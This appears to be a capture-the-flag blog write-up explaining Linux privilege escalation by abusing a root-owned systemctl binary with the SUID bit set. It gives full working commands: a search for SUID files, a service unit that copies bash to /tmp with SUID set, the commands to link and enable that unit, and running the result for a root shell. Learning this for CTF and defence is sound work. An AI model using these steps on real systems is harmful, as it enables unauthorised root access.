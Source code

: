 ```yaml
---
title: "SystemCTL SUID bit exploitation"
date: 2025-07-21
categories: [ctf, linux, privesc]
layout: post
toc: true
toc_sticky: true
---
```


The SUID bit (Set owner User ID) is a special permission in Unix/Linux systems that, when set on an executable file, allows that file to be run with the permissions of the file’s owner, rather than the user who is running it. It is denoted with an `s` in the bit:

![SUID bit permission](/assets/images/suid.png)

If a binary owned by root has a SUID bit, the program will always run as root. This is extremely useful, especially in privilege escalation as we can do stuff like get a root shell.

In our case, the `systemctl` utility was assigned a SUID bit that we can exploit to gain a root shell by copying the output of `/bin/bash` to a file we make. The output of `/bin/bash` will be a root shell as in our case `systemctl` has a SUID bit and is owned by root.

> **Tip:** Locate all SUID bits with the command `find / -perm -u=s -type f 2>/dev/null`

## Exploitation

Firstly, we will create a file telling `systemctl` that when ran the output from `/bin/bash` should be written to `/tmp/rootbash` using SUID:

```bash
cat <<EOF > /tmp/rootme.service
[Unit]
Description=Root shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

We will then register this file with `systemctl`:

```bash
/bin/systemctl link /tmp/rootme.service
```

We can then enable the service:

```bash
/bin/systemctl enable --now rootme.service
```

Finally, we can run our `rootbash` file:

```bash
/tmp/rootbash -p
```

Note that the `-p` means that privileges should NOT be dropped. (Normally, when a SUID binary is ran, bash drops privileges for safety).

We should successfully obtain a root shell from this!


